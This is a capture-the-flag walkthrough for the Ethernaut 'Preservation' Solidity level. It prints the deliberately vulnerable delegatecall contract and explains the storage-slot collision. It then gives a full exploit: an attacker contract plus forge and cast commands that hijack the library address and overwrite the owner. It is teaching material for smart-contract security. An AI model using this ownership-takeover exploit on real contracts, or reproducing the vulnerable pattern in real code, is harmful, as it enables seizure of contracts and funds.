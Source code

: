 ## Preservation Level Outline

**Difficulty : 8/10**

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F)

## Solution

When a contract makes a function call using delegatecall it loads the function code from another contract and executes it as if it were its own code. 

This means that when we make a delegatecall to `timeZone1Library`, we are modifying storage slot 0 in Preservation. If we change this to point to a malicious contract, we can then create a spoof function for "setTime(uint256)" and change the owner.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    uint256 storageSlot0;
    uint256 storageSlot1;
    uint256 attack_this_slot;

    function setTime(uint256 newOwner) public {
        attack_this_slot = newOwner;
    }
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Contract --private-key  $PRIVATE_KEY
```

3. changing storage slot 0 to point to our malicious contract
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $DEPLOYED_ADDRESS --private-key $PRIVATE_KEY
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

4. calling our exploited contract through the delegatecall and passing our address as the owner
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $NEW_OWNER --gas 60000 --private-key $PRIVATE_KEY
```
> Replace $NEW_OWNER with your EOA address 

